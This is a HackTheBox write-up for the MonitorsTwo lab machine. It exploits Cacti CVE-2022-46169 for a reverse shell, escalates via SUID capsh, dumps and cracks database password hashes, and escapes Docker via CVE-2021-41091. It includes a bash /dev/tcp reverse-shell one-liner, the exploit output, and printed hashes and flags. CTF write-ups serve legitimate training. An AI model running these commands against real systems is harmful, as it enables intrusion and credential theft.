



# MonitorsTwo - HackTheBox - Writeup
Linux, 20 Base Points, Easy



## Machine


 
## TL;DR

To solve this machine, we start by using `nmap` to enumerate open services and find ports `22`, and `80`.

***User***: Found `Cacti Version 1.2.22` and used `CVE-2022-46169` to acquire a reverse shell as `www-data`. Discovered the SUID file `capsh` and gained a root shell inside the container using `capsh --gid=0 --uid=0 --`. Found the `/entrypoint.sh` file containing the database (DB) credentials. Identified the hashed password of `marcus` in the DB. Successfully cracked the hash using `john` and employed the obtained password to establish an SSH connection as `marcus`.

***Root***: Based on an email received from `administrator@monitorstwo` addressed to `marcus` it is indicated that the vulnerability `CVE-2021-41091` was exploited to obtain a `root` shell.




## MonitorsTwo Solution

### User

Let's begin by using `nmap` to scan the target machine:

```console
┌─[evyatar9@parrot]─[/hackthebox/MonitorsTwo]
└──╼ $ nmap -sV -sC -oA nmap/MonitorsTwo 10.10.11.211
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-19 16:16 IDT
Nmap scan report for 10.10.11.211
Host is up (0.077s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_  256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Login to Cacti
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Observing port `80`, we see that the following web page is hosted:


In the given information, it is evident that the version being used is `Cacti Version 1.2.22`. There exists a vulnerability known as [CVE-2022-46169](https://github.com/ariyaadinatha/cacti-cve-2022-46169-exploit) that enables authentication bypass and remote code execution for this specific version.


The vulnerability occurs due to `remote_agent.php` has a function to retrieves IP address and verify an entry within the poller table. If an entry was found, the function will return true and the client is authorized. One of the actions is called polldata which retrive few request parameter, if the action of a poller_item equals to `POLLER_ACTION_SCRIPT_PHP` can lead the attacker to execute command injection vulnerability through `proc_open` ([Reference](https://github.com/ariyaadinatha/cacti-cve-2022-46169-exploit)).

In order to proceed with the exploit, the first step is to set up a listener on port `4242` using the `nc` (netcat) utility. This can be achieved by executing the following command:
```console
┌─[evyatar9@parrot]─[/hackthebox/MonitorsTwo/cacti-cve-2022-46169-exploit]
└──╼ $ nc -lvp 4242
listening on [any] 4242 ...

```

Now that the listener is set up on port `4242` using nc, we can proceed with utilizing the exploit:
```console
┌─[evyatar9@parrot]─[/hackthebox/MonitorsTwo/cacti-cve-2022-46169-exploit]
└──╼ $ python3 cacti.py 
Enter the target address (like 'http://123.123.123.123:8080') http://10.10.11.211/
Checking vulnerability...
App is vulnerable
Brute forcing id...
Enter your IPv4 address 10.10.14.14
Enter the port you want to listen on 4242
Delivering payload...
<html>
<head><title>504 Gateway Time-out</title></head>
<body>
<center><h1>504 Gateway Time-out</h1></center>
<hr><center>nginx/1.18.0 (Ubuntu)</center>
</body>
</html>

```

Upon successfully utilizing the exploit, we are able to obtain a reverse shell as the `www-data` user:
```console
┌─[evyatar9@parrot]─[/hackthebox/MonitorsTwo/cacti-cve-2022-46169-exploit]
└──╼ $ nc -lvp 4242
listening on [any] 4242 ...
10.10.11.211: inverse host lookup failed: Unknown host
connect to [10.10.14.14] from (UNKNOWN) [10.10.11.211] 35254
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@50bca5e748b0:/var/www/html$

```

By executing the [linpeas.sh](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) script, we discovered the presence of the following SUID file on the system:
```console
...
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid
...
-rwsr-xr-x 1 root root 31K Oct 14  2020 /sbin/capsh
```

By executing the command `capsh --gid=0 --uid=0 --`, we were able to obtain a `root` shell. This command utilized the `capsh` executable and set the group ID (gid) and user ID (uid) to 0, which corresponds to the `root` user. As a result, we gained a `root` shell:
```console
www-data@50bca5e748b0:/var/www/html$ capsh --gid=0 --uid=0 --
capsh --gid=0 --uid=0 --
whoami
root

```

Now, with the elevated privileges as the `root` user, we can establish another reverse shell as the `root` user by executing the command `bash -c 'bash -i >& /dev/tcp/10.10.14.14/4444 0>&1'`.

While inside the container, our enumeration revealed the presence of a specific file:
```console
root@50bca5e748b0:/$ cat entrypoint.sh
cat entrypoint.sh
#!/bin/bash
set -ex

wait-for-it db:3306 -t 300 -- echo "database is connected"
if [[ ! $(mysql --host=db --user=root --password=root cacti -e "show tables") =~ "automation_devices" ]]; then
    mysql --host=db --user=root --password=root cacti < /var/www/html/cacti.sql
    mysql --host=db --user=root --password=root cacti -e "UPDATE user_auth SET must_change_password='' WHERE username = 'admin'"
    mysql --host=db --user=root --password=root cacti -e "SET GLOBAL time_zone = 'UTC'"
fi

chown www-data:www-data -R /var/www/html
# first arg is `-f` or `--some-option`
if [ "${1#-}" != "$1" ]; then
	set -- apache2-foreground "$@"
fi

exec "$@"
www-data@50bca5e748b0:/$
```

By examining the file `/var/www/html/cacti.sql`, which contains SQL instructions, we were able to access the database credentials. During this observation, we identified the presence of the following table:
```sql
CREATE TABLE user_auth (
  `id` mediumint(8) unsigned NOT NULL auto_increment,
  `username` varchar(50) NOT NULL default '0',
  `password` varchar(256) NOT NULL default '',
  `realm` mediumint(8) NOT NULL default '0',
  `full_name` varchar(100) default '0',
  `email_address` varchar(128) NULL,
  `must_change_password` char(2) default NULL,
  `password_change` char(2) default 'on',
  `show_tree` char(2) default 'on',
  `show_list` char(2) default 'on',
  `show_preview` char(2) NOT NULL default 'on',
  `graph_settings` char(2) default NULL,
  `login_opts` tinyint(3) unsigned NOT NULL default '1',
  `policy_graphs` tinyint(3) unsigned NOT NULL default '1',
  `policy_trees` tinyint(3) unsigned NOT NULL default '1',
  `policy_hosts` tinyint(3) unsigned NOT NULL default '1',
  `policy_graph_templates` tinyint(3) unsigned NOT NULL default '1',
  `enabled` char(2) NOT NULL DEFAULT 'on',
  `lastchange` int(11) NOT NULL DEFAULT '-1',
  `lastlogin` int(11) NOT NULL DEFAULT '-1',
  `password_history` varchar(4096) NOT NULL DEFAULT '-1',
  `locked` varchar(3) NOT NULL DEFAULT '',
  `failed_attempts` int(5) NOT NULL DEFAULT '0',
  `lastfail` int(10) unsigned NOT NULL DEFAULT '0',
  `reset_perms` int(10) unsigned NOT NULL DEFAULT '0',
  PRIMARY KEY (`id`),
  KEY `username` (`username`),
  KEY `realm` (`realm`),
  KEY `enabled` (`enabled`)
) ENGINE=InnoDB ROW_FORMAT=Dynamic;
``` 

To retrieve data from the mentioned table, we can use the SQL query below:
```console
www-data@50bca5e748b0:/$ mysql --host=db --user=root --password=root cacti -e "Show databases;"
<ser=root --password=root cacti -e "Show databases;"
Database
information_schema
cacti
mysql
performance_schema
sys
www-data@50bca5e748b0:/$ mysql --host=db --user=root --password=root cacti -e "use cacti;select * from user_auth;"
<=root cacti -e "use cacti;select * from user_auth;"
id	username	password	realm	full_name	email_address	must_change_password	password_change	show_tree	show_list	show_preview	graph_settings	login_opts	policy_graphs	policy_trees	policy_hosts	policy_graph_templates	enabled	lastchange	lastlogin	password_history	locked	failed_attempts	lastfail	reset_perms
1	admin	$2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC	0	Jamie Thompsonadmin@monitorstwo.htb		on	on	on	on	on	2	1	1	1	1on	-1	-1	-1		0	0	663348655
3	guest	43e9a4ab75570f5b	0	Guest Account		on	on	on	on	on	3	1	1	1	1	1		-1	-1	-1		0	00
4	marcus	$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C	0	Marcus Brune	marcus@monitorstwo.htb			on	on	on	on	1	1	1	1	1on	-1	-1		on	0	0	2135691668

```

After obtaining the password hashes for the users `admin` (`Thompsonadmin@monitorstwo.htb`), `guest`, and `marcus@monitorstwo.htb`, we utilized the `john` tool to successfully crack the hash associated with `marcus`:
```console
┌─[evyatar9@parrot]─[/hackthebox/MonitorsTwo/]
└──╼ $ john --wordlist=~/Desktop/rockyou.txt --format=bcrypt hash2
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
funkymonkey      (?)
1g 0:00:06:13 DONE (2023-05-19 01:19) 0.002676g/s 22.83p/s 22.83c/s 22.83C/s vectra..cooter
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Using the cracked password `funkymonkey` for the user `marcus`, we were able to establish an SSH connection:
```console
┌─[evyatar9@parrot]─[/hackthebox/MonitorsTwo/]
└──╼ $ ssh marcus@10.10.11.211
marcus@10.10.11.211's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-147-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri 19 May 2023 10:21:49 PM UTC

  System load:                      0.0
  Usage of /:                       63.1% of 6.73GB
  Memory usage:                     16%
  Swap usage:                       0%
  Processes:                        230
  Users logged in:                  0
  IPv4 address for br-60ea49c21773: 172.18.0.1
  IPv4 address for br-7c3b7c0d00b3: 172.19.0.1
  IPv4 address for docker0:         172.17.0.1
  IPv4 address for eth0:            10.10.11.211
  IPv6 address for eth0:            dead:beef::250:56ff:feb9:8907


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

You have mail.
Last login: Thu Mar 23 10:12:28 2023 from 10.10.14.40
marcus@monitorstwo:~$ cat user.txt 
3ce3b89bdb49b06d439b957317a5cb2f
```

And we get the user flag `3ce3b89bdb49b06d439b957317a5cb2f`.

### Root

Upon reviewing the contents of `marcus's` email, the following information was identified:
```console
marcus@monitorstwo:~$ cat /var/mail/marcus 
From: administrator@monitorstwo.htb
To: all@monitorstwo.htb
Subject: Security Bulletin - Three Vulnerabilities to be Aware Of

Dear all,

We would like to bring to your attention three vulnerabilities that have been recently discovered and should be addressed as soon as possible.

CVE-2021-33033: This vulnerability affects the Linux kernel before 5.11.14 and is related to the CIPSO and CALIPSO refcounting for the DOI definitions. Attackers can exploit this use-after-free issue to write arbitrary values. Please update your kernel to version 5.11.14 or later to address this vulnerability.

CVE-2020-25706: This cross-site scripting (XSS) vulnerability affects Cacti 1.2.13 and occurs due to improper escaping of error messages during template import previews in the xml_path field. This could allow an attacker to inject malicious code into the webpage, potentially resulting in the theft of sensitive data or session hijacking. Please upgrade to Cacti version 1.2.14 or later to address this vulnerability.

CVE-2021-41091: This vulnerability affects Moby, an open-source project created by Docker for software containerization. Attackers could exploit this vulnerability by traversing directory contents and executing programs on the data directory with insufficiently restricted permissions. The bug has been fixed in Moby (Docker Engine) version 20.10.9, and users should update to this version as soon as possible. Please note that running containers should be stopped and restarted for the permissions to be fixed.

We encourage you to take the necessary steps to address these vulnerabilities promptly to avoid any potential security breaches. If you have any questions or concerns, please do not hesitate to contact our IT department.

Best regards,

Administrator
CISO
Monitor Two
Security Team
```

As mentioned in the email, we can leverage the exploit available at https://github.com/UncleJ4ck/CVE-2021-41091.

To proceed with the exploit, the first step involves running the command `chmod u+s /bin/bash` inside the container. Since we already have a reverse shell with `root` privileges, we can execute this command to set the setuid permission on the `/bin/bash` binary:
```console
root@50bca5e748b0:/var/www/html# chmod u+s /bin/bash
chmod u+s /bin/bash
root@50bca5e748b0:/var/www/html# ls -ltr /bin/bash*
ls -ltr /bin/bash*
-rwsr-xr-x 1 root root 1234376 Mar 27  2022 /bin/bash
```

In the next step of the process, on the host system, we will execute the `exp.sh` file obtained from the repository mentioned. This can be accomplished by running the following command:
```console
marcus@monitorstwo:~$ bash exp.sh 
[!] Vulnerable to CVE-2021-41091
[!] Now connect to your Docker container that is accessible and obtain root access !
[>] After gaining root access execute this command (chmod u+s /bin/bash)

Did you correctly set the setuid bit on /bin/bash in the Docker container? (yes/no): yes
[!] Available Overlay2 Filesystems:
/var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged

[!] Iterating over the available Overlay2 filesystems !
[?] Checking path: /var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
[x] Could not get root access in '/var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged'

[?] Checking path: /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
[!] Rooted !
[>] Current Vulnerable Path: /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
[?] If it didn't spawn a shell go to this path and execute './bin/bash -p'

[!] Spawning Shell
bash-5.1# exit
```

To proceed, we will navigate to the specified directory `/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged` and execute the command `./bin/bash -p`:
```console
marcus@monitorstwo:~$ cd /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
marcus@monitorstwo:/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged$ ./bin/bash -p
bash-5.1# whoami
root
bash-5.1# cat /root/root.txt
456a04d4aeb0aab3be27d3f9beef6b2d
```

And we get the root flag `456a04d4aeb0aab3be27d3f9beef6b2d`.


PDF password:
```console
bash-5.1# cat /etc/shadow | grep root
$6$KQUOT7rGEpEUTjFc$hA2mxdKhpH7RQ3g5ZGjzkPrRpq1jCqmiZY9SgqaoTb1BI6APMo14Ed/Ptbfnf5MAkCbBbHEbRqwzPc301fuat1
```